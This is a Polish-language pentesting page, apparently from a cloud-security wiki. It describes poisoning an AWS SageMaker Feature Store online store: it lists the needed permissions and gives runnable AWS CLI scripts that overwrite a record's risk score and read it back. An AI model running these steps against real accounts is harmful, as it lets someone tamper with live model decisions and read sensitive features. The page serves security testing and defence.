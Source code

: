 # SageMaker Feature Store online store poisoning

Wykorzystaj `sagemaker:PutRecord` na Feature Group z włączonym OnlineStore, aby nadpisać bieżące wartości cech wykorzystywane przez online inference. W połączeniu z `sagemaker:GetRecord` atakujący może odczytać wrażliwe cechy. Do tego nie jest wymagany dostęp do modeli ani endpoints.

## Requirements
- Permissions: `sagemaker:ListFeatureGroups`, `sagemaker:DescribeFeatureGroup`, `sagemaker:PutRecord`, `sagemaker:GetRecord`
- Target: Feature Group with OnlineStore enabled (typically backing real-time inference)

## Steps
1) Wybierz lub utwórz mały Online Feature Group do testów
```bash
REGION=${REGION:-us-east-1}
FG=$(aws sagemaker list-feature-groups --region $REGION --query "FeatureGroupSummaries[?OnlineStoreConfig!=null]|[0].FeatureGroupName" --output text)
if [ -z "$FG" -o "$FG" = "None" ]; then
ACC=$(aws sts get-caller-identity --query Account --output text)
FG=ht-fg-$ACC-$(date +%s)
ROLE_ARN=$(aws iam get-role --role-name AmazonSageMaker-ExecutionRole --query Role.Arn --output text 2>/dev/null || echo arn:aws:iam::$ACC:role/service-role/AmazonSageMaker-ExecutionRole)
aws sagemaker create-feature-group --region $REGION --feature-group-name "$FG" --record-identifier-feature-name entity_id --event-time-feature-name event_time --feature-definitions "[{\"FeatureName\":\"entity_id\",\"FeatureType\":\"String\"},{\"FeatureName\":\"event_time\",\"FeatureType\":\"String\"},{\"FeatureName\":\"risk_score\",\"FeatureType\":\"Fractional\"}]" --online-store-config "{\"EnableOnlineStore\":true}" --role-arn "$ROLE_ARN"
echo "Waiting for feature group to be in Created state..."
for i in $(seq 1 40); do
ST=$(aws sagemaker describe-feature-group --region $REGION --feature-group-name "$FG" --query FeatureGroupStatus --output text || true)
echo $ST; [ "$ST" = "Created" ] && break; sleep 15
done
fi
```
2) Wstaw/nadpisz rekord online (poison)
```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)
cat > /tmp/put.json << JSON
{
"FeatureGroupName": "$FG",
"Record": [
{"FeatureName": "entity_id", "ValueAsString": "user-123"},
{"FeatureName": "event_time", "ValueAsString": "$NOW"},
{"FeatureName": "risk_score", "ValueAsString": "0.99"}
],
"TargetStores": ["OnlineStore"]
}
JSON
aws sagemaker-featurestore-runtime put-record --region $REGION --cli-input-json file:///tmp/put.json
```
3) Odczytaj rekord, aby potwierdzić manipulację
```bash
aws sagemaker-featurestore-runtime get-record --region $REGION --feature-group-name "$FG" --record-identifier-value-as-string user-123 --feature-name risk_score --query "Record[0].ValueAsString"
```
Oczekiwane: risk_score zwraca 0.99 (ustawione przez atakującego), co dowodzi możliwości zmiany cech online wykorzystywanych przez modele.

## Wpływ
- Atak integralności w czasie rzeczywistym: manipulacja cechami używanymi przez modele produkcyjne bez dotykania endpointów/modeli.
- Ryzyko poufności: odczyt wrażliwych cech za pomocą GetRecord z OnlineStore.
